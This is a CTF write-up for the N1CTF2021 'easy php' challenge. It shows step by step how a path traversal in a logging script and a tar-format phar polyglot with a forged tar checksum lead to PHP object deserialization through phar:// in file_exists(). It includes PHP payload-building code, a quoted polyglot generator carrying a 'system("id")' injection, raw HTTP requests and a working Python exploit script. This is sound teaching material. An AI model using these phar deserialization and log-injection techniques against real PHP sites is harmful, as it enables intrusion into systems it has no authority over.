

This is writeup for the "easy php" web challenge in the N1CTF2021 event.

CTF link: https://ctf2021.nu1l.com/challenge

# Recon
Chal link: http://43.155.59.185:53340/

returns:

`download code:/download_env.zipfile not exist!`

You can then download /download_env.zip to get the source.

App has three php files:

[index.php]
```
<?php
include_once "flag.php";
include_once "log.php";

if(file_exists(@$_GET["file"])){
    echo "file exist!";
}else{
    echo "file not exist!";
}

?>
```

[flag.php]
```
<?php

CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}
```
[log.php]
```
<?php
define('ROOT_PATH', dirname(__FILE__));

$log_type = @$_GET['log_type'];
if(!isset($log_type)){
    $log_type = "look";
}

$gets = http_build_query($_REQUEST);

$real_ip = $_SERVER['REMOTE_ADDR'];
$log_ip_dir = ROOT_PATH . '/log/' . $real_ip;

if(!is_dir($log_ip_dir)){
    mkdir($log_ip_dir, 0777, true);
}

$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
$log_file = $log_ip_dir . '/' . $log_type . '_www.log';

file_put_contents($log_file, $log, FILE_APPEND);

?>
```

Given some past experience with php chals, it is clear that we need to create a phar payload with a reference to the FLAG class onto the server and then somehow get it to be deserialized.

A phar file is a php thing where you can encapsulate some php code and object references into a single binary payload.

If your phar file has an object reference to the FLAG class, then if you can get your phar to deserialize on the server, it will create an instance of FLAG and also soon after destroy it calling __destruct(); which will echo the flag to whatever page is doing the deserialization.

So, two goals:

1. Find a way of deserializing a phar file in this app
2. Find a way of creating a suitable phar file on the server

It turns out goal #1 is easy because index.php calls file_exists() on a parameter we control.

PHP has several language-specific protocols kind of like `http://` and `ftp://` except they are php specific.

One is `phar://`

As is explained well here, the file_exists() function will honor the phar:// protocol.

https://security.szurek.pl/en/php-phar-file-exists-can-be-dangerous/

So, if we can achieve goal #2 then we can get the flag by doing:

`http://43.155.59.185:53340/?file=phar://<our-file>`

Then `file_exists()` will be called with `phar://<our-file>` and  it will first deserialize the file.  Our phar file will have an object reference to the FLAG class which will then cause it to emit the flag.


# Learning about PHAR files
You need to have php installed on your computer to follow along here.

Let's create a php file we can use to create a phar file.  Please note the explanatory comments.

[create_phar.php]
```
<?php
// file file will be created
$filename = 'test.phar';
unlink($filename);

$phar = new Phar($filename);
$phar->startBuffering();

// this is just some dummy content needed or else it won't create the file
// the content itself is not important
$phar->addFromString('test.txt', 'text');

// all phar files must have a stub that ends with __HALT_COMPILER);
// note that if we tried to put code in here, it would NOT run during
// deserialization of the phar
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// this is a dummy version of FLAG (which is fine)
class FLAG {}
$object = new FLAG;

// adding this reference WILL cause a FLAG instance to be instantiated
// on the server DURING deserialization
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

We can now run:

`php create_phar.php`


This will create a file called `test.phar`.

If I open test.phar in Visual Studio Code, it noticed it is a binary file but I tell it to open it anyway, I see this:




Now lets test it by creating a tester php program where we purposefully include a copy of their FLAG class code:

[test_phar.php]
```
<?php 
CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}

file_exists('phar://test.phar');

?>
```

We can test it by running:

`php test_phar.php`

When I do this, it ends up instantiating a FLAG object and soon after runs the `__destruct()` method printing:

`FLAG: n1ctf{************************}`


Can we create files on the server?

If we were able to upload our test.phar file to their server, we'd be able to then easily get the flag.

However, our ability to create files on the server is limited.

Let's study `log.php` a bit more.

We see it will first create a directory (if needed) using this logic:
```
$real_ip = $_SERVER['REMOTE_ADDR'];
$log_ip_dir = ROOT_PATH . '/log/' . $real_ip;
```

Here `$real_ip` will be our actual local ip address and cannot be spoofed.

Then these lines create a new file (if needed) and add a single line into it:
```
$log_type = @$_GET['log_type'];
...
$gets = http_build_query($_REQUEST);
...
$log = 'Time: ' . date('Y-m-d H:i:s') . ' IP: [' . @$_SERVER['HTTP_X_FORWARDED_FOR'] . '], REQUEST: [' . $gets . '], CONTENT: [' . file_get_contents('php://input') . "]\n";
$log_file = $log_ip_dir . '/' . $log_type . '_www.log';

file_put_contents($log_file, $log, FILE_APPEND);
```

We can set $log_type to whatever we want.  We can be sneaky and set it to something like:

`?log_type=../../test`

This will end up with `$log_file` moving up and out of our `$real_ip` directory and even up and out of the `log` directory and end up creating a file called test_www.log in the same directory as log.php itself.

**Note**: As it turns out, this `../../` trickery wasn't needed to get the flag, but I used it anyway.

How much can we control the content of $log that it adds as content to this file?

Looks like we have some control over the IP, REQUEST, and CONTENT sections of $log.

The CONTENT section is set from yet another PHP protocol called php://.  In this case php://input is a special URL that provides access to the raw request body contents (regardless of the declared Content-Type).

Since we know a phar file has binary content, let's focus on CONTENT and ignore the other areas for now.

Let's play with this using Burp Suite's Repeater functionality.
```
POST /log.php?log_type=..%2F..%2Ftesting123 HTTP/1.1
Host: 43.155.59.185:53340
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 18

How now brown cow!
```


Note: The `%2F` constructs are just encoded `/` characters.

This should've created a file named `esting123_www.log` in the same directory as `index.php`.

Let's go get that content:

```
GET /testing123_www.log HTTP/1.1
Host: 43.155.59.185:53340
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
Server: nginx/1.20.1
Date: Sun, 21 Nov 2021 16:22:27 GMT
Content-Type: application/octet-stream
Content-Length: 106
Last-Modified: Sun, 21 Nov 2021 16:22:19 GMT
Connection: close
ETag: "619a723b-6a"
Accept-Ranges: bytes

Time: 2021-11-21 16:22:19 IP: [], REQUEST: [log_type=..%2F..%2Ftesting123], CONTENT: [How now brown cow!]
```


Here we see the REQUEST section included our query parameters (log_type) and the CONTENT section included our POSTed request body content.  Presumably, if our POSTed request body had binary content, then this would also be included in the CONTENT section.


Can we use this to create a phar file on the server?

What happens if we create a new file by starting with our `test.phar` and then add some new content before and after it?

I use a tool called **Hex Fiend** (on the mac) for things like this.  We can open test.phar in Hex Fiend and insert some content before/after the original content.

Here the inserted content is circled in red:


You can see I'm trying to "make it look" like it might look if I simply set my POSTed request body to the original test.phar content and then log.php does its thing inserting that content into the CONTENT section.

However, if I save this and then re-run:

`php test_phar.php`

I get NO output!  So, clearly this is no longer a legal phar file.  But I got no error output either.

If I change:

`file_exists('phar://test.phar');`

to:

`file_get_contents('phar://test.phar');`

and re-run, THEN I get this:

`PHP Warning:  file_get_contents(phar://test.phar): failed to open stream: phar "test.phar" has a broken signature in test_phar.php on line 9`

So, I guess I broke its... signature.


If you read more about the php phar file format, you'll learn that the **last** 4 bytes are expected to be `GBMB` and before that is one of several possible types of digital signatures.

The `phar://` protocol reader clearly pays attention to this and is unhappy if the file no longer matches its signature.

Are we stuck?

Since we can't control the entire `$log` line, we seem to have no way of making the file it creates into a legal phar file.

In particular, there is no way we can make the `$log` line end in `GBMB` since it always will end with a ']' character.  So, it'll NEVER have a legal signature.

So, we're stuck; right?

I thought so at first.  I then came across this article:

https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a

This talks about the theory of making a jpg file ALSO be a legal phar file.

Unfortunately, it doesn't give example code, so I was left wondering about the details.

Then I found this nice github project:

https://github.com/kunte0/phar-jpg-polyglot

This DOES give example code:
```
<?php

function generate_base_phar($o, $prefix){
    global $tempname;
    @unlink($tempname);
    $phar = new Phar($tempname);
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("$prefix<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($o);
    $phar->stopBuffering();
    
    $basecontent = file_get_contents($tempname);
    @unlink($tempname);
    return $basecontent;
}

function generate_polyglot($phar, $jpeg){
$phar = substr($phar, 6); // remove <?php dosent work with prefix
$len = strlen($phar) + 2; // fixed
$new = substr($jpeg, 0, 2) . "\xff\xfe" . chr(($len >> 8) & 0xff) . chr($len & 0xff) . $phar . substr($jpeg, 2);
$contents = substr($new, 0, 148) . "        " . substr($new, 156);

    // calc tar checksum
    $chksum = 0;
    for ($i=0; $i<512; $i++){
        $chksum += ord(substr($contents, $i, 1));
    }
    // embed checksum
    $oct = sprintf("%07o", $chksum);
    $contents = substr($contents, 0, 148) . $oct . substr($contents, 155);
    return $contents;
}


// pop exploit class
class PHPObjectInjection {}
$object = new PHPObjectInjection;
$object->inject = 'system("id");';
$object->out = 'Hallo World';


// config for jpg
$tempname = 'temp.tar.phar'; // make it tar
$jpeg = file_get_contents('in.jpg');
$outfile = 'out.jpg';
$payload = $object;
$prefix = '';

var_dump(serialize($object));


// make jpg
file_put_contents($outfile, generate_polyglot(generate_base_phar($payload, $prefix), $jpeg));

/*
// config for gif
$prefix = "\x47\x49\x46\x38\x39\x61" . "\x2c\x01\x2c\x01"; // gif header, size 300 x 300
$tempname = 'temp.phar'; // make it phar
$outfile = 'out.gif';

// make gif
file_put_contents($outfile, generate_base_phar($payload, $prefix));

*/
```

This has a method called `generate_base_phar()` which looks a lot like my `create_phar.php` code.  It has some code for stitching the phar content (after some massaging) in along with the jpg image file.  It also has some checksum ($chksum) logic.

This confused me at first.  The simple checksum logic shown here is NOT the same as the digital signature at the end of a phar file.

What the heck is going on?

I figured out what was going on by copying this code and playing around with it locally.

It turns out the `generate_base_phar()` creates a phar file in a vastly different format than my `test.phar`.

My `test.phar` is a few hundred bytes while the phar file created by `generate_base_phar()` was around 5K!

How could this be?  What is causing it to be in a different format?

Turns out it is this line:

`$tempname = 'temp.tar.phar'; // make it tar`


If the phar creation code is given a filename ending in `.tar.phar`, it creates a tar file with the phar file embedded inside!

Let's change our `create_phar.php` to do the same thing by changing it to use this line:

`$filename = 'test.tar.phar';`


Now, when I run:

`php create_phar.php`

I get a 5K file called `test.tar.php`.

When I open this in Hex Fiend, the start of the file looks like:


This is WAY different than `test.phar`.

Note that this file starts with `test.txt`.  That will turn out to be REALLY IMPORTANT.  Since it will allow us to control the starting text and make it look like a `$log` line.

If I change `test_phar.php` to test our `test.tar.phar`:
```
<?php 
CLASS FLAG {
    private $_flag = 'n1ctf{************************}';
    public function __destruct(){
        echo "FLAG: " . $this->_flag;
    } 
}

file_exists('phar://test.tar.phar');

?>
```

and run it, it STILL WORKS!  It outputs the expected string.


OK... let's see if this tar file format is amenable to inserting content before or after.

First I ONLY added a ']' to the end of the file:


If I save this and rerun `test_phar.php`, it still works!

How about if insert stuff at the beginning?


When I save this and rerun `test_phar.php`:

I get no output.

If I change `file_exists()` to `file_get_contents()`, I get this error:

`test.tar.phar" is a corrupted tar file (checksum mismatch of file "Time: 2021-11-21 16:22:19 IP: [], REQUEST: [log_type=..%2F..%2Ftesting123], CONTENT: [test.txt")`

After some googling, it seems the tar file format DOES have a checksum starting at file offset 148.  That is exactly that the github jpg code was fixing up.


# A Plan!

In order to make the log file it creates be a legal tar.phar file, we need to know ahead of time the content it will add and create a payload that, when inserted into the CONTENT: [<blah>] section, will have a valid checksum.

As it turns out, this won't be too hard to achieve since the ONLY part of the log file that varies outside of our control is the date/time.

But, the time is predictable.  In fact, we can make any HTTP request to their server, and the server's time is returned in the Date response header.

`Date: Sun, 21 Nov 2021 16:22:27 GMT`


Here's the plan:  Write a python program that:
1. makes a GET request to get the server date/time.
2. creates a new .php file that, when run, will create a tar.phar file starting with the predicted $log text given the guessed date/time
3. have php run that .php program
4. read in the tar.phar file into a byte string
5. create a new byte string by stripping off all of the starting bytes up through: `CONTENT: [`
6. make a POST request to `/log.php` with some suitable `log_file` parameter value AND whose request body is this trimmed byte string

If we are lucky, and the time (up to the second) hasn't changed yet, the POST to /log.php will create a server-side file that looks EXACTLY like the `tar.phar` file we created locally.

A notable exception is that theirs will end in `]` and ours won't.  But we've already proven that trailing characters don't break the `tar.phar` checksum.

If so, we THEN know that is a legal `tar.phar`.

We can then execute `/index.php?file=phar://<our-file>` to get the flag.


# The Code

Here is my exploit code:

[crack.py]
```
import os
import requests
import random

URL = 'http://43.155.59.185:53340'

def getDateString():

    response = requests.get(URL,
                             allow_redirects=False
                            )

    # looks like: Sun, 21 Nov 2021 14:48:41 GMT
    date = response.headers.get('Date')

    # want a string like: 2021-11-21 14:48:41
    date = '2021-11-21 ' + date[-12: -4]
    
    print(date)
    return date

def getNonce():
return 'sam33_' + str(random.randint(1,100000))

def createPhar(logType):
date = getDateString()
pharFilename = 'payload.tar.phar'
phpContent = """
<?php
$filename = '""" + pharFilename + """';
unlink($filename);
$phar = new Phar($filename);
$phar->startBuffering();
$phar->addFromString('Time: """ + date + """ IP: [], REQUEST: [log_type=""" + logType + """], CONTENT: [test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class FLAG {}
$object = new FLAG;
$phar->setMetadata($object);
$phar->stopBuffering();
?>
"""
phpFilename = "dynamic_create_phar.php"
phpFile = open(phpFilename, "w")
phpFile.write(phpContent)
phpFile.close()

    cmd = "php " + phpFilename
    os.system(cmd)

    pharFile = open(pharFilename, "rb")
    pharData = pharFile.read()
    return pharData


def createLogFile(logType, postBody):

    postUrl = URL + '/log.php?log_type=' + logType
    print(postUrl)
    response = requests.post(postUrl,
                             data = postBody,
                             allow_redirects=False
                             )

    print(response.status_code)

nonce = getNonce()
logType = '..%2F..%2F' + nonce

prefixEnd = b'CONTENT: ['
pharData = createPhar(logType)
index = pharData.find(prefixEnd)
postBody = pharData[index + len(prefixEnd):]
createLogFile(logType, postBody)

logUrl = URL + '/' + nonce + '_www.log'
print(logUrl)
```

The first few times I ran this, the newly-created log file, upon downloading and inspecting it, was ONE SECOND later than the one I had planned for.

However, on the third try, it worked and the date/time `log.php` created was EXACTLY the same as the one I was hoping for.

Here's me downloading this newly-created `.log` file so that I could tell the time was the same as the file I created locally.

```
GET /sam33_48981_www.log HTTP/1.1
Host: 43.155.59.185:53340
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

```
HTTP/1.1 200 OK
Server: nginx/1.20.1
Date: Sun, 21 Nov 2021 15:28:42 GMT
Content-Type: application/octet-stream
Content-Length: 5122
Last-Modified: Sun, 21 Nov 2021 15:28:32 GMT
Connection: close
ETag: "619a65a0-1402"
Accept-Ranges: bytes


Time: 2021-11-21 15:28:32 IP: [], REQUEST: [log_type=..%2F..%2Fsam33_48981], CONTENT: [test.txt000064400000000004141464626400021537 0ustar00text.phar/stub.php000066600000000035141464626400007253 0ustar00<?php __HALT_COMPILER(); ?>
.phar/.metadata.bin000000000000000017000000000000010025 0ustar00O:4:"FLAG":0:{}.phar/signature.bin000066600000000034141464626400010257 0ustar004¯_,L(Ür1Ifÿü÷´Øæ]
```

Recall that the python code guesses at the `$log` prefix content, builds, a tar.phar with that content and then strips off the leading text so that log.php will then add it back in.

# Get the Flag

We can now get the flag using a web browser:


This was very challenging for me and I was stuck several times.  Thanks to N1CTF for a very nice challenge!
